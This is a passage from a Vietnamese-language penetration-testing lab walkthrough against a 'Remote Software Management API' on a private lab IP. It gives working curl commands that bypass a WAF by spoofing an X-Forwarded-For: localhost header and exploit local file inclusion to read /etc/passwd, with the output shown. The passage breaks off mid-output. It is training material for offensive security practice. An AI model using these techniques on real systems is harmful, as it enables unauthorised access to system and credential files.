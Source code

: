 Có vẻ như đây là một API nhạy cảm đã bị expose và trang chủ có tài liệu hướng dẫn về API này. Theo hướng dẫn sử dụng, URL cập nhật có thể được truyền qua yêu cầu POST đến enpoint `/update` với dữ liệu JSON sau:

```
{"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

Có vẻ như mục tiêu có thể tải xuống tệp thực thi Linux (ELF) để cập nhật và sau đó chạy tệp đó bằng cách sử dụng endpoint `/restart`. Một endpoint thú vị khác cần lưu ý là `/logs` có lệnh `Read log files`.

## Exploitation

Có vẻ như cần tên người dùng hợp lệ cho endpoint `/update`. Vì việc tấn công bằng brute-force có vẻ không khả thi, quay lại endpoint này sau.

### Bypassing WAF

Nếu thử truy cập endpoint `/logs` (http://192.168.120.149:13337/logs), thấy lỗi sau:

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs                                                 
WAF: Access Denied for this Host.
```

API dường như được "bảo vệ" bởi tường lửa ứng dụng web (WAF), từ chối quyền truy cập vào máy chủ. Tuy nhiên, nó dễ dàng bị đánh bại. Nhớ lại thông báo `It is just for management on localhost.` trên trang chủ của API, tất cả những gì phải làm là thêm header HTTP `X-Forwarded-For` và đặt thành `localhost` để bỏ qua hạn chế truy cập này.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs -H "X-Forwarded-For: localhost"
Error! No file specified. Use file=/path/to/log/file to access log files
```

Tuyệt! Đã bỏ qua WAF và hiện gặp phải lỗi mới dường như do chính ứng dụng tạo ra.

### Local File Inclusion Vulnerability

Lỗi quan sát được gợi ý về khả năng có lỗ hổng LFI. Kiểm tra điều này bằng cách thử truy cập tệp `/etc/passwd`.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Software Management API</title>
        <link rel="stylesheet" href="static/style.css"
    </head>
    <body>
        <center><h1 style="color: #F0F0F0;">Remote Software Management API</h1></center>
        
        
        <h2>Attention! This utility should not be exposed to external network. It is just for management on localhost. Contact system administrator(s) if you find this exposed on external network.</h2> 
        
        
        <div class="divmain">
            <h3>Log:</h3>
            <div class="divmin">
            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```